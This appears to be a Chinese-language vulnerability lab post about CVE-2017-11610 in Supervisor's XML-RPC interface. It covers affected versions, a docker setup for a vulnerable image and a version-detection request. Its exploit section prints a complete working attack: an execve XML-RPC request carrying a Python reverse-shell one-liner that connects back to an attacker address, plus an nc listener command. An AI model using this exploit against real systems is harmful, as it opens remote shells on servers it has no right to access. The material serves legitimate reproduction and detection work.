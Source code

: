 ```yaml
---
layout: post
title: "Supervisor Remote Code Execution(CVE-2017-11610)"
date: 2017-07-28 00:41:04 +0800
image: '/assets/img/'
description: '远程攻击者可发送一段精心构造的请求，可在服务器执行任意代码'
main-class: 'hole'
color: '#B31917'
tags:
- Supervisor
- RCE
categories:
- Supervisor
twitter_text: 'Supervisor Remote Code Execution(CVE-2017-11610)环境'
introduction: 'Supervisor Remote Code Execution(CVE-2017-11610)环境'
---
```


### 漏洞信息

Supervisor 是用 Python 开发的一套通用的进程管理程序，能将一个普通的命令行进程变为后台 daemon，并监控进程状态，异常退出时能自动重启。Supervisor可通过web接口管理服务，在配置了web接口后，同时会在服务器启动一个 XMLRPC 服务器，端口为 9001。该接口可配置需要密码访问，或者无需认证访问。

在获取该接口的访问权限后，远程攻击者可发送一段精心构造的请求，可在服务器执行任意代码。

详细信息参考：[[CVE-2017-11610] RCE vulnerability report](https://github.com/Supervisor/supervisor/issues/964)

### 影响版本

大于 3.0

#### 已经确认：

* Supervisor 3.1.2 
* Supervisor 3.3.2

#### 已修复此漏洞版本

* Supervisor 3.3.3
* Supervisor 3.2.4
* Superivsor 3.1.4
* Supervisor 3.0.1

### 镜像信息

类型 | 用户名 | 密码
:-:|:-:|:-:
http://127.0.0.1/9001/RPC2 | vulapps | vulapps

> 本环境默认无认证，如需开启，请修改 `/etc/supervisor.conf` 文件

### 获取环境:

1. 拉取镜像到本地
 ```bash
$ docker pull medicean/vulapps:s_supervisor_1
 ```

2. 启动环境
 ```bash
$ docker run -d -p 80:80 -p 9001:9001 medicean/vulapps:s_supervisor_1
 ```
 > `-p 80:80` 前面的 80 代表物理机的端口，可随意指定。 

 访问 http://127.0.0.1:80 看到 web 界面即启动成功

#### PoC

[查看巡风检测脚本](https://github.com/ysrc/xunfeng/pull/117/)

无损化检测时可发送该报文，检测返回版本号：

{% highlight http %}
POST /RPC2 HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/xml
Content-Type: text/xml
Accept-Language: en-GB,en;q=0.5
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Length: 110
Host: 127.0.0.1:9001

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.getSupervisorVersion</methodName>
</methodCall>
{% endhighlight %}

返回内容如下：

{% highlight http %}
HTTP/1.1 200 OK
Date: Fri, 28 Jul 2017 05:08:47 GMT
Content-Length: 131
Content-Type: text/xml
Server: Medusa/1.12

<?xml version='1.0'?>
<methodResponse>
<params>
<param>
<value><string>3.3.2</string></value>
</param>
</params>
</methodResponse>
{% endhighlight %}

如果提示 401 未认证错误，可在请求头中添加 HTTP基础认证

#### Exp

**注意：**该 Exp 使用的`execve`, 如果存在漏洞，会将 `supervisord` 进程替换成指定的程序(本 Exp 中将会替换成 `/usr/bin/python`)，换言之，会导致`supervisord`进程退出，**生产环境中请慎用**

反弹 Shell 演示：

> 假定启动后的环境如下：
>
> 攻击者 IP: 192.168.2.104
> 
> 受害者 IP: 192.168.2.100

1. 在攻击者机器上使用 nc 监听
 ```
 $ nc -lvp 9999
 ```

2. 向受害者 9001 端口发送如下报文后即可
{% highlight http %}
POST http://192.168.2.100:9001/RPC2 HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/xml
Content-Type: text/xml
Accept-Language: en-GB,en;q=0.5
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Length: 638
Host: 192.168.2.100:9001

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.execve</methodName>
<params>
<param>
<string>/usr/bin/python</string>
</param>
<param>
<array>
<data>
<value><string>python</string></value>
<value><string>-c</string></value>
<value><string>import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.2.140",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);</string></value>
</data>
</array>
</param>
<param>
<struct>
</struct>
</param>
</params>
</methodCall>
{% endhighlight %}

---

![](https://github.com/Medicean/VulApps/raw/master/s/supervisor/1/exp.png)

### 参考链接

* [SSD Advisory – Supervisor Authenticated Remote Code Execution](https://blogs.securiteam.com/index.php/archives/3348)
* [[CVE-2017-11610] RCE vulnerability report](https://github.com/Supervisor/supervisor/issues/964)
